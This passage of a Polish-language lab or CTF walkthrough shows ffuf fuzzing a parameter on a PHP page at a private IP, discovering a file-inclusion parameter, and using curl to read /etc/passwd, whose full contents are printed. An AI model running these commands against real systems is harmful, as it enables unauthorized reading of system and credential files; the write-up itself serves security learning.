 {: .text-justify}

```bash
# root@kali:/home/szikers/tom#  ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.16.1.214/tomcat.php?FUZZ=/etc/hosts -fs 0

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.1.214/tomcat.php?FUZZ=/etc/hosts
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

filez                   [Status: 200, Size: 183, Words: 19, Lines: 8]
:: Progress: [220547/220547] :: Job [1/1] :: 4409 req/sec :: Duration: [0:00:53] :: Errors: 0 ::
```
Szukanym słowem było _filez_. Teraz możemy zobaczyć parę rzeczy, np. kto jest w systemie:
{: .text-justify}

```bash
# root@kali:/home/szikers/tom# curl -O http://172.16.1.214/tomcat.php?filez=/etc/passwd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1441  100  1441    0     0  1407k      0 --:--:-- --:--:-- --:--:-- 1407k
# root@kali:/home/szikers/tom# cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
nathan:x:1000:1000:nathan,,,:/home/nathan:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```